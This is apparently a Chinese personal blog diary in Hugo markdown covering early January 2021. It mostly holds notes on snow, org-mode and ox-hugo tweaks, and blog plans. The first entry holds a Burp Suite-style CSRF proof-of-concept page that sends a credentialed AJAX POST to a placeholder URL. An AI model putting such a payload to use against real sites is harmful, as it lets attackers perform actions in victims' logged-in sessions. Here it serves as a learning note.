 +++
title = "20210104"
draft = false
hideReadMore = true
+++

<!--more-->


## 星期三, 21/01/06 {#星期三-21-01-06}

使用 ajax 发送 csrf 请求的 demo:

```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
    <script>
        history.pushState('', '', '/')
        function csrf() {
            const json_data = JSON.stringify(["57f9d387b754299727a9e5f5e9f314a4"]);
            const xhr = new XMLHttpRequest();
            xhr.open('POST', 'http://xxx');
            xhr.setRequestHeader('Content-Type', 'application/json');
            xhr.withCredentials = true; // ajax 默认不携带 cookie
            xhr.send(json_data);
        }
    </script>
    <input type="button" value="Submit request" onclick="csrf()" />
</body>
</html>
```


## 星期四, 21/01/07 {#星期四-21-01-07}


### 19:00 雪❄ {#19-00-雪}

这应该算是我第一次看到下雪了, 虽然不是很大, 记忆中还有一次是小时候在湖南看到的,
不过印象很模糊. 再往前我应该也看过很厚的积雪, 不过那时候太小, 已经完全不记得了

{{< figure src="/ox-hugo/2021-01-09_11-19-26_2021-01-08_snow.jpg" >}}


## 星期五, 21/01/08 {#星期五-21-01-08}


### <span class="org-todo done DONE">DONE</span> 今天尽量写完 org mode 的推荐文章 {#今天尽量写完-org-mode-的推荐文章}

-   State "DONE"       from "TODO"       <span class="timestamp-wrapper"><span class="timestamp">[2021-01-08 周五 14:23]</span></span>


## 星期六, 21/01/09 {#星期六-21-01-09}


### 00:39 午夜 {#00-39-午夜}

单纯想看看半夜写日记的话, 是按哪一天算. 感觉从早上开始算新的一天比较合适, 设置很
简单:

```emacs-lisp
(setq org-extend-today-until 6)
```


### 14:56 {#14-56}

果然又忍不住折腾起来了, 想用 org-reveal 做一个 gallery 分享一些喜欢的图片或者照片,
再搞个网易云插件分享喜欢的音乐😵

考虑了一下之后还是觉得太不务正业了, 花这时间还不如去学习学习, 写点有营养的文章.
所以还是决定尽量保持博客的简洁, 所有分享的东西直接放在日记里就好了


### 15:12 《俏郎君》 {#15-12-俏郎君}

{{< bilibili BV16h41127L6 >}}


### 21:17 完善 ox-hugo 导出功能 {#21-17-完善-ox-hugo-导出功能}

当我想使用 hugo 的 shortcode 生成一个可折叠的代码块时, 会导致最终多出两行
markdown 的标记:

````markdown
```text
```
````

所以我想找一个可以在 org mode 中使用代码块, 而 ox-hugo 只导出代码块内文本的方法,
目前有一个不是很优雅的解决方法——使用 `#+begin_export html`
